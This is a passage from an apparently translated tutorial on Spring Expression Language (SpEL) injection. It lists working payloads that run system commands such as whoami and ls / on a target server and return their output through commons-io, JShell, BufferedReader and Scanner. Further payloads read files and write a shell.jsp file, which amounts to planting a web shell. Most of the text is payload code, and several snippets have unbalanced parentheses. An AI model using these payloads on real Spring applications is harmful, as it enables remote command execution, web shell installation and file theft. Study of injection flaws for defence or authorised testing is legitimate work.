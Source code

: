 
## Echo
The above article describes how to execute system commands through `SpEL`, and then let’s see how to obtain echoes of command execution in a line of `SpEL` statement.

### commons-io
Use the `commons-io` component to achieve echo. This method will be limited by whether the target server has this component. This component is not used in the default environment of `springboot`.

```java
T(org.apache.commons.io.IOUtils).toString(payload).getInputStream())
```

### JShell
The above `JShell` can implement echo output, but this method will be limited by the version problem of `jdk`.

```java
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```

### BufferedReader
The `jdk` native class implements the output of echoing, but this method can only read one line.

```java
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("whoami").start().getInputStream(), "gbk")).readLine()
```

### Scanner
Use the `Scanner#useDelimiter` method to split the output using the specified string, so you can give a messy string here, and all characters will be on the first line, and then execute the `next` method to get all the output.

```java
new java.util.Scanner(new java.lang.ProcessBuilder("ls", "/").start().getInputStream(), "GBK").useDelimiter("h3rmesk1t").next()
```

## Read and write files
 - Read the file

```java
new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/helloworld/shell.jsp"))))))
```

 - Write a file

```java
T(java.nio.file.Files).write(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/helloworld/shell.jsp")), '123464987984949'.getBytes(), T(java.nio.file.StandardOpenOption).WRITE)
```
